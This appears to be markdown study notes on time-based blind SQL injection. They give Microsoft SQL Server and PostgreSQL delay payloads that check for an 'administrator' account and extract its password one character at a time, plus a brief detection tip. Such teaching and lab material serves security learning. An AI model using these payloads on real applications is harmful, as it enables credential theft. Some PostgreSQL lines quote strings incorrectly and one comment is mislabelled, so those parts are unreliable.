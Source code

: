     ​	
     
   - **Exploiting blind SQL injection by triggering time delays**

     In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.

     The techniques for triggering a time delay are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to test a condition and trigger a delay depending on whether the expression is true:

     `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
     `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

     The first of these inputs will not trigger a delay, because the condition 1=2 is false. The second input will trigger a delay of 10 seconds, because the condition 1=1 is true.

     Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

     ```sql
     '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, §1§, 1) = '§a§') = 1 WAITFOR DELAY '0:0:{delay}'--
     ```

     payload Ex:
     
     ```sql
     '%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
     ```
     
     **RECAP**
     
     ```sql
     -- test SQLI
     '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
     '; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
     
     -- check if there is user named administrator
     '; SELECT CASE WHEN (username="Administrator") THEN pg_sleep(10) ELSE pg_sleep(0) END--
     
     -- calc pass lenght
     '; SELECT CASE WHEN (username="Administrator" AND LENGTH(password)=§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END--
     
     -- calc pass lenght ** Cluster Bobm Technique **
     '; SELECT CASE WHEN (username="Administrator" AND SUBSTR(password,§1§,1)=§a§) THEN pg_sleep(10) ELSE pg_sleep(0) END--
     ```
     
     

**How to Detect :**

- Submitting the single quote character ' and looking for errors or other anomalies.
